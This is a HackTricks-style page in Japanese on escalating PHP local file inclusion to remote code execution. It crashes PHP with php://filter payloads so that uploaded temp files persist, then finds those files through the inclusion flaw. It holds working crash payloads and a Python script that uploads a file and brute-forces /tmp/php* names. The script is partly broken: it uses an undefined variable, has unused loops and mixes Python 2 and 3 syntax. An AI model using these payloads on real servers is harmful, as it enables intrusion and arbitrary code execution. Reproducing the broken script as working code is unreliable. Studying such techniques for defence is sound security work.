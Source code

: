 # LFI2RCE via Segmentation Fault

{{#include ../../banners/hacktricks-training.md}}

次の書き込みによると [https://spyclub.tech/2018/12/21/one-line-and-return-of-one-line-php-writeup/](https://spyclub.tech/2018/12/21/one-line-and-return-of-one-line-php-writeup/) (第二部) および [https://hackmd.io/@ZzDmROodQUynQsF9je3Q5Q/rJlfZva0m?type=view](https://hackmd.io/@ZzDmROodQUynQsF9je3Q5Q/rJlfZva0m?type=view)、次のペイロードがPHPでセグメンテーションフォルトを引き起こしました:
```php
// PHP 7.0
include("php://filter/string.strip_tags/resource=/etc/passwd");

// PHP 7.2
include("php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA");
```
あなたは、**ファイル**を**含む****POST**リクエストを**送信**すると、PHPがそのファイルの内容を持つ**一時ファイルを`/tmp/php<something>`**に作成することを知っておくべきです。このファイルは、リクエストが処理されると**自動的に削除**されます。

**LFI**を見つけて、PHPでセグメンテーションフォルトを**トリガー**することができれば、**一時ファイルは決して削除されません**。したがって、**LFI**脆弱性を利用してそれを**検索**し、見つけて任意のコードを実行することができます。

テストには、dockerイメージ[https://hub.docker.com/r/easyengine/php7.0](https://hub.docker.com/r/easyengine/php7.0)を使用できます。
```python
# upload file with segmentation fault
import requests
url = "http://localhost:8008/index.php?i=php://filter/string.strip_tags/resource=/etc/passwd"
files = {'file': open('la.php','rb')}
response = requests.post(url, files=files)


# Search for the file (improve this with threads)
import requests
import string
import threading

charset = string.ascii_letters + string.digits

host = "127.0.0.1"
port = 80
base_url = "http://%s:%d" % (host, port)


def bruteforce(charset):
for i in charset:
for j in charset:
for k in charset:
for l in charset:
for m in charset:
for n in charset:
filename = prefix + i + j + k
url = "%s/index.php?i=/tmp/php%s" % (base_url, filename)
print url
response = requests.get(url)
if 'spyd3r' in response.content:
print "[+] Include success!"
return True


def main():
bruteforce(charset)

if __name__ == "__main__":
main()
```
{{#include ../../banners/hacktricks-training.md}}
